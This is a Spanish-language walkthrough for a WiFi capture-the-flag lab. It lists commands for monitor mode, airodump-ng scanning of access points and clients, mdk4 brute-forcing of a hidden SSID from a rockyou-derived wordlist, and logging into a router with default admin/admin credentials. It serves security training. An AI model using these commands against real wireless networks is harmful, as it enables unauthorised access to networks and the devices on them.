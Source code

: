 # Penetration Testing CTF
WiFiChallenge Lab 2025

## Preparación Inicial
```bash
mkdir ~/wifi
sudo airmon-ng start wlan0
```

## 00. Check VM
```bash
sudo su
cat /root/flag.txt
```

## 01. Canal del AP wifi-global
```bash
sudo airodump-ng wlan0mon -w ~/wifi/scan --manufacturer --wps --band abg
```

## 02. MAC del cliente wifi-IT
```bash
sudo airodump-ng wlan0mon -w ~/wifi/scanc11 --manufacturer --wps -c11
```

## 03. Probe de 78:C1:A7:BF:72:46
```bash
sudo airodump-ng wlan0mon -w scan --manufacturer --wps --band abg
# Buscar en la sección de clientes
```

## 04. ESSID del AP oculto (F0:9F:C2:6A:88:26)
```bash
cat ~/rockyou-top100000.txt | awk '{print "wifi-" $1}' > ~/wifi-rockyou.txt
airmon-ng start wlan0 
iwconfig wlan0mon channel 11
mdk4 wlan0mon p -t F0:9F:C2:6A:88:26 -f ~/wifi-rockyou.txt
```

## 05. Flag en AP oculto (credenciales por defecto)
```bash
# free.conf
network={
    ssid="ESSID_ENCONTRADO"
    key_mgmt=NONE
    scan_ssid=1
}

wpa_supplicant -Dnl80211 -iwlan2 -c free.conf
dhclient wlan2 -v
# Acceder a 192.168.16.1 con admin/admin
```
